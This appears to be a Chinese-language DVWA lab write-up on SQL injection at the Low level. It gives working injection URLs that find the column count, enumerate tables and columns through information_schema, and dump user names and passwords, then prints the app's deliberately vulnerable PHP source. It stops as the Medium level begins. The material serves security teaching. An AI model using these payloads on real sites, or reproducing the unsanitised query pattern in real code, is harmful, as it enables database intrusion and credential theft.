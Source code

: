 # SQL 注入

## 0x00 Low级别

输入ID值1~5，能够显示不同的账户名

![1622682564233](1622682564233.png)

首先判断是否存在sql注入

```http
http://localhost:8080/dvwa/vulnerabilities/sqli/?id=1'&Submit=Submit#
```

页面报错，存在sql注入

![1622683158650](1622683158650.png)

分析报错信息

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1''' at line 1
```

接着判断sql注入的类型，是单引号闭合的字符型

```http
http://localhost:8080/dvwa/vulnerabilities/sqli/?id=1' and '1'='1 &Submit=Submit#
http://localhost:8080/dvwa/vulnerabilities/sqli/?id=1' and '1'='2 &Submit=Submit#
```

尝试还原服务器端sql语句

```sql
select * from users where id = '$id';
```

使用order by判断字段数量，得知有两个字段数量

```http
http://localhost:8080/dvwa/vulnerabilities/sqli/?id=1' order by 1--+&Submit=Submit#
http://localhost:8080/dvwa/vulnerabilities/sqli/?id=1' order by 2--+&Submit=Submit#
http://localhost:8080/dvwa/vulnerabilities/sqli/?id=1' order by 3--+&Submit=Submit#
```

![1622684223063](1622684223063.png)

用联合查询union select确定显示位置

```http
http://localhost:8080/dvwa/vulnerabilities/sqli/?id=-1' union select 1,2--+&Submit=Submit#
```

![1622684453693](1622684453693.png)

使用version(),database()等函数查询数据库信息

```http
http://localhost:8080/dvwa/vulnerabilities/sqli/?id=-1' union select version(),database()--+&Submit=Submit#
```

![1622684516306](1622684516306.png)

既然MySQL数据库版本在5.0以上那么默认存在information_schema数据库，里面包含整个数据库的数据库名、表名、列名等

使用联合查询得到test库中guestbook和users两张表

```http
http://localhost:8080/dvwa/vulnerabilities/sqli/?id=-1' union select database(),group_concat(table_name) from information_schema.tables where table_schema='test'--+&Submit=Submit#
```

![1622685276659](1622685276659.png)

接着查询users表里的列名，可以看到包含user，password等字段

```http
http://localhost:8080/dvwa/vulnerabilities/sqli/?id=-1' union select database(),group_concat(column_name) from information_schema.columns where table_schema='test' and table_name='users'--+&Submit=Submit#
```

![1622685590219](1622685590219.png)

有了字段名以及数据库表名等信息，就可以直接查询用户名和密码

```http
http://localhost:8080/dvwa/vulnerabilities/sqli/?id=-1' union select database(),group_concat(user,password) from test.users--+&Submit=Submit#
```

![1622685727314](1622685727314.png)

源代码分析，sql语句与之前还原的基本一致，low级别下的并没有注重sql注入的防御

```php
<?php
if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}
?> 
```

## 0x01 Medium级别

相比于low级别，取消了输入点，换成了下拉式单选框

![1622687507002](1622687507002.png)

但考虑到既然要和服务器端数据库产生交互，那就可以抓包来修改ID的值，同时也存在通过修改数据包实现sql注入的可能，打开Burp Suite抓包

